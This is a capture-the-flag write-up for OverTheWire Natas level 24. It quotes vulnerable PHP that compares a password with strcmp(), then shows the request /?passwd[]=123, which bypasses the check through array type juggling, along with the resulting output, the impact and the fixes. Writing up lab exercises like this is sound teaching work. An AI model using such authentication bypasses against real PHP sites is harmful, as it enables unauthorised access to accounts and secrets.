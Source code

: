 # [Over The Wire (natas)] – [[Platform](http://natas24.natas.labs.overthewire.org/)] – [09/30/2025]

## Objective
Find the password for the next Natas level by exploiting the vulnerability on this page.  

## Environment / Platform
- Platform: OverTheWire – Natas
- Level: [24]
- Difficulty: [Easy]

## Tools Used
- Chromium Browser

## Login
1. Logged in with credentials:
   - **Username**: `natas24
   - **Password**: `XXXXXX`
  
2. Screenshot:
   ![alt text](image-32.png)
   
   - this prompted that I should check the sourcecode by clicking the link `http://natas24.natas.labs.overthewire.org/index-source.html`

3. Observed Page Content

```php
      if(array_key_exists("passwd",$_REQUEST)){
         if(!strcmp($_REQUEST["passwd"],"<censored>")){
               echo "<br>The credentials for the next level are:<br>";
               echo "<pre>Username: natas25 Password: <censored></pre>";
         }
         else{
               echo "<br>Wrong!<br>";
         }
      }
      // morla / 10111
```
   - This function checks if the key "passwd" matches the stored password, by using string-compare function which is negated. If so, the flag will be revealed. If not will display "Wrong!".


---

     
1. Steps taken (Type Juggling):

   1. First of all I wanted to check what happens when I submit a regular variable to the request, endpoint `/?passwd=123` returned expected error statement.


   ```html
        <br>Wrong!<br>
   ```

   2. Changing the type of information sent from string to an array seemed like a possibility using endpoint `/?passwd[]=123`

   ```html
      <b>Warning</b>:  strcmp() expects parameter 1 to be string, array given in <b>/var/www/natas/natas24/index.php</b> on line <b>23</b><br />
      <br>The credentials for the next level are:<br><pre>Username: natas25 Password: XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX</pre>
   ```

   3. This returned the flag.


---

🔑 **Why this works**: 

   - The code uses $_REQUEST (accepts GET/POST/COOKIE) and calls strcmp() without validating the input type.

   - Passing an array (passwd[]=) to strcmp() triggers a PHP warning and makes the comparison return a non-string/NULL-like value which, when negated with !, evaluates as true in this context.

   - The warning is printed to the page and the success branch runs immediately after, causing the hard-coded credentials to be display

---

💥 **Impact**

   - Immediate disclosure of the next-level credentials (full secret revealed).

   - Trivial bypass of authentication logic without knowing the password (no brute force required).

   - Demonstrates broader input-validation failures that could be abused elsewhere on the site.

   - Information leakage from error messages (stack traces / file paths) that aids further exploitation.

---
  
🛠️ **Remediation**

   - Validate input types before comparison (e.g., if (!isset(_REQUEST['passwd']) || !is_string(_REQUEST['passwd'])) { handle_error(); }).

   - Use strict comparisons and safe functions (hash_equals() for secret comparison) and avoid negated strcmp idioms.

   - Disable display of PHP warnings/errors in production (display_errors = Off) and log them instead.

   - Avoid using _REQUEST; require an explicit source ($_POST or $_GET) and sanitize input.

   - Do not store plaintext secrets in source; keep secrets out of webroot or use environment variables and/or hashed values.